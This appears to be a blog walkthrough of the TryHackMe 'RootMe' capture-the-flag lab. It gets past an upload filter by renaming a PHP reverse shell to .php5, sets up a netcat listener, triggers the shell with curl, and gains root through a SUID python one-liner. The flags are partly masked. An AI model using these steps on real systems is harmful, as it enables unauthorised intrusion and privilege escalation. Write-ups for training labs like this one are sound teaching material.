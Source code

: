 #CTF #TryHackMe #Easy #Linux 

The skills to be tested and needed to solve this room are: **nmap**, **GoBuster**, **privilege escalation**, **SUID**, **find**, **webshell**, and **gtfobins**.

This room was released today, 9/9/2020. Shout-out to the room creator, **@reddyyZ**. You can access the room at [https://tryhackme.com/room/rootme](https://tryhackme.com/room/rootme)

I was assigned a target IP address of **10.10.177.208**. You will be assigned a different IP address, so double check your entries when following this walk-through.

The requirements to complete this room are:

- How many ports are open?
    - *****
- What version of Apache is running?
    - **2.*.****
- What service is running on port 22?
    - **S****
- Find directories on the web server using web enumeration tool.
    - **No answer needed**
- What is the hidden directory?
    - **/p****/**
- user.txt
    - **THM{y**_***_*_****l}**
- Search for files with SUID permission, which file is weird?
    - **/u**/***/********
- Find a form to escalate your privilege
    - **No answer needed**
- root.txt
    - **THM{p********_*********n}**

**Steps:**

1. Deploy the target machine:

![](https://lightkunyagami.files.wordpress.com/2020/09/deploy.png?w=1024)

2. Scan the machine using **nmap**. Type **_nmap -sC -sV 10.10.177.208_**

- **_-sC_** – to scan using the default nmap scripts

- **_-sV_** – to pull version information of open ports found during the scan

![](https://lightkunyagami.files.wordpress.com/2020/09/nmap.png?w=813)

We have SSH and Web Server open

The nmap scan result above will answer the first three questions:

- How many ports are open? *****
- What version of Apache is running? **2.*.****
- What service is running on port 22? **S****

3. Run **gobuster** to look for hidden directories and files on the web server. Type **_gobuster dir -u [http://10.10.177.208](http://10.10.177.208/) -w /usr/share/wordlists/dirb/common.txt_**

- **_dir_** – to use directory/file brute-forcing mode
- **_-u_** – is the flag to tell gobuster that we are scanning a URL
- **_-w_** – is the flag to set the list of possible directory and file names

![](https://lightkunyagami.files.wordpress.com/2020/09/gobuster.png?w=691)

Directories were found

The gobuster scan result above will answer the next question:

- What is the hidden directory? **/p****/**

4. Visit the hidden directory through your preferred browser. Type **_10.10.177.208/p****/_**

![](https://lightkunyagami.files.wordpress.com/2020/09/site.png?w=934)

Hidden directory page

5. Looks like we can use this to upload a **web shell** and get a reverse shell. Download the php reverse shell script [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Make sure to change the values in the script with your own IP address and a port of your choice to get a reverse shell

![](https://lightkunyagami.files.wordpress.com/2020/09/php-reverse.png?w=356)

Here are the values you need to change in the **php-reverse-shell** script

6. Upon uploading the **php-reverse-shell.php** file, we get a “PHP not permitted” I supposed message

![](https://lightkunyagami.files.wordpress.com/2020/09/not-permitted.png?w=528)

It looks like there is a file extension filtering here

This reminded of a recent walk-through room called **Upload Vulnerabilities** in tryhackme.com.

7. I tried other extensions such as **jpg**, and that uploaded successfully. I tried changing the magic number from **PHP** to jpg of “**FF F8 FF DB**“. That uploaded the php reverse-shell script but it won’t execute. Then, I realized maybe it is just filtering the .php extension, so I renamed the script to a .php5 extension. And that uploaded successfully too

![](https://lightkunyagami.files.wordpress.com/2020/09/upload.png?w=529)

Successfully uploaded my php reverse-shell script

8. Start a netcat listener from your attack machine. Type **_nc -nlvp 9999_**

![](https://lightkunyagami.files.wordpress.com/2020/09/listener.png?w=250)

Netcat listener running on port 9999

9. Run the php reverse-shell script by using **curl**. Type **_curl [http://10.10.177.208/uploads/reverse-shell.php5](http://10.10.177.208/uploads/reverse-shell.php5)_**

![](https://lightkunyagami.files.wordpress.com/2020/09/curl.png?w=503)

10. Go back to check on your listener if you have a connection

![](https://lightkunyagami.files.wordpress.com/2020/09/sehll.png?w=897)

We got a shell!

11. Search for the user.txt using **find**. Type **_find / -type f -name user.txt 2> /dev/null_**

- **_-type f_** – you are telling find to look exclusively for files
- **_-name user.txt_** – instructing the find command to search for a file with the name “user.txt”
- **_2> /dev/null_** – so error messages do not show up as part of the search result

![](https://lightkunyagami.files.wordpress.com/2020/09/search-usertxt.png?w=397)

user flag location

12. Retrieve the content of user.txt. Type **_cat /var/www/user.txt_**

![](https://lightkunyagami.files.wordpress.com/2020/09/user-flag.png?w=233)

user flag

The screenshot above answers the question:

- What is user.txt? **THM{y**_***_*_****l}**

13. Search for files with SUID permission to escalate our privilege using **find**. Type **_find / type -f -user root -perm -u=s 2> /dev/null_**

![](https://lightkunyagami.files.wordpress.com/2020/09/suid.png?w=508)

I blurred the one that seems to be out of place

The screenshot above will answer the question:

- Search for files with SUID permissions, which file is weird? **/u**/***/********

14. Check **gtfobins** on how to exploit the suid above. Access gtfobins [here](https://gtfobins.github.io/). Then search for the specific binary you found above and study how you can exploit through SUID.

![](https://lightkunyagami.files.wordpress.com/2020/09/privesc.png?w=1024)

15. Escalate our privilege to root user. Type **_python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’_**

![](https://lightkunyagami.files.wordpress.com/2020/09/root.png?w=493)

We are root user!

16. Search for root.txt. Type **_find / -type f -name root.txt_**

![](https://lightkunyagami.files.wordpress.com/2020/09/rootflag-location.png?w=287)

root flag location

17. Retrieve the content of root.txt. Type **_cat /root/root.txt_**

![](https://lightkunyagami.files.wordpress.com/2020/09/root-flag.png?w=229)

Found the root flag!

![](https://lightkunyagami.files.wordpress.com/2020/09/final.png?w=1024)

Room completed

I hope you had fun and learned something from following my walk-through. Please don’t forget to subscribe to my blog to get the latest update when I post new contents.

